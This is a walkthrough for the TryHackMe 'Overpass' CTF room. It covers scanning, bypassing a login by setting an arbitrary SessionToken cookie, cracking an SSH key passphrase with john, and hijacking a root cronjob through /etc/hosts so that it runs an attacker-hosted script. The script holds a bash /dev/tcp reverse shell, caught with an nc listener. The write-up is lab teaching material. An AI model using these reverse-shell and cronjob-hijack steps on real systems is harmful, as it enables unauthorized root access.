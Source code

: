 # Overpass Writeup

![bannner](/thm/images/overpass/banner.png)

Writeup for room - [Overpass](https://tryhackme.com/room/overpass)

## Scanning and Enumeration

Let's start with an nmap scan.

```
nmap <IP> -sV -sC -T4 -p-
```

![nmap scan](/thm/images/overpass/nmap.png)

We find 2 open ports, let's check port 80.

![homepage](/thm/images/overpass/homepage.png)

After looking through the pages and source code we really can't find anything that interesting. Let's check for hidden directories with gobuster.

![gobuster](/thm/images/overpass/gobuster.png)

Seems like there's an admin page.

![admin](/thm/images/overpass/admin.png)

We can't seem to get in with default credentials so we could try a bruteforce with hydra but the hints say we have to look at OWASP top 10.
When inspecting the source code we find a login.js so let's check that out.

![login](/thm/images/overpass/loginjs.png)

This functions is interesting because it tells us there's a cookie being used called "SessionToken".

![loginfunc](/thm/images/overpass/loginfunc.png)

Perhaps we can give this cookie a random value and it will let us in?

![cookie](/thm/images/overpass/sessioncookie.png)

Reload the page and we find a private ssh key for user james.

![sshkey](/thm/images/overpass/sshkey.png)

When we try to login with this private key we're asked for a passphrase so lets use john to crack it.
First we convert with ssh2john.py and then we crack it with the rockyou wordlist.

![john](/thm/images/overpass/john.png)

We cracked the passphrase, now we try again.
Don't forget to change the file permissions to 600 or ssh will complain.

![ssh](/thm/images/overpass/ssh.png)

## Privilege escalation

We're in! The user flag is the usual location and should be easy to find. Let's to try escalate our privilege.

sudo -l does not give us anything.
Perhaps there's an interesting file with SUID permission?

![suid](/thm/images/overpass/suid.png)

Again nothing we can use.

Let's check if we can exploit a cronjob.

![cronjob](/thm/images/overpass/cronjobs.png)

We can see there's a buildscript.sh run from overpass.thm/downloads/src. If we can edit /etc/hosts we can set overpass.thm to our own IP and get root privilege with a reverse shell.

First we edit /etc/hosts and put our own IP in.

![etchosts](/thm/images/overpass/etchosts.png)

Then we go back our own machine and create the exact same folders: downloads/src

```
mkdir -p downloads/src
```
Create a buildscript.sh in the src folder and paste the reverse shell in there.

```
bash -i >& /dev/tcp/<your_ip>/4444 0>&1
```

We start the http server.

```
sudo python -m SimpleHTTPServer 80
```
![http](/thm/images/overpass/httpserver.png)

At the same time we listen on port 4444 for a connection from the reverse shell.

```
nc -lnvp 4444
```
![nc](/thm/images/overpass/nc.png)

Hope this writeup helped you!
